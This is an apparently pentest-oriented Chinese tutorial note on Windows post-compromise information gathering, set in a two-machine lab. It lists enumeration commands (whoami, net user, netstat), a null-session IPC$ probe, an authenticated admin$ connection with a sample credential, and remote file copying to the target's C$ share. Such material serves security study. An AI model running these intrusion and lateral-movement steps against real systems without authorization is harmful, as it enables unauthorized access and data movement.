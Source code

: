 # win信息收集（V2）

0x01 基础命令使用:

演示环境:

```text
win2008R2cn     ip: 192.168.3.23    假设为入侵者机器
win2012R2cn     ip: 192.168.3.122   假设为目标机器
```

```text
# whoami /all             查当前用户在目标系统中的具体权限,这可能会成为你一上来的习惯性动作 ^_^
# query user              查当前机器中正在线的用户,注意管理员此时在不在
# hostname            查当前机器的机器名,知道当前机器是干啥的
# net user            查当前机器中所有的用户名,开始搜集准备用户名字典
# net localgroup          查当前机器中所有的组名,了解不同组的职能,如,IT,HR,ADMIN,FILE...
# net localgroup "Administrators" 查指定组中的成员列表
```

查看本机ip配置:

```text
# ipconfig /all     查看本机ip配置,观察本机是否在域内,内网段有几个,网关在哪里
# ipconfig /displaydns  查看本地DNS缓存
```

查看当前机器中所有的网络连接:

```text
# net start             查看本机运行的所有服务
# netstat -ano              查看本机所有的tcp,udp端口连接及其对应的pid
# netstat -anob             查看本机所有的tcp,udp端口连接,pid及其对应的发起程序
# netstat -ano | findstr "ESTABLISHED"  查看当前正处于连接状态的端口及ip
# netstat -ano | findstr "LISTENING"    查看当前正处于监听状态的端口及ip
# netstat -ano | findstr "TIME_WAIT"    
```

&lt;!-- more --&gt; 利用最基础的ipc连接,这里需要注意下防火墙,如果没允许`文件和打印共享`服务,是根本net不上去的

```text
# net use \\192.168.3.122\ipc$ /u:"" ""     先空连接探测
# net use                   查看当前机器中的ipc连接有哪些
# net use \\192.168.3.122\ipc$ /del
# net use \\192.168.3.122\admin$ /user:"dcadmin" "admin!@#45"   建立真正的ipc
```

ipc建立成功后,尝试直接在本地往远程机器上拷贝文件

```text
第一种方式:
# net use p: \\192.168.3.122\c$     可在建立ipc后直接把对方的c盘映射过来,直接在本地进行拷贝
# net use p: /del           用完以后,务必立马删除映射
```

```text
第二种方式[推荐用xcopy]:
# xcopy d:\sqlitedata\*.* \\192.168.3.122\c$\temp /E /Y /D  也可在建立ipc后直接远程拷贝
```
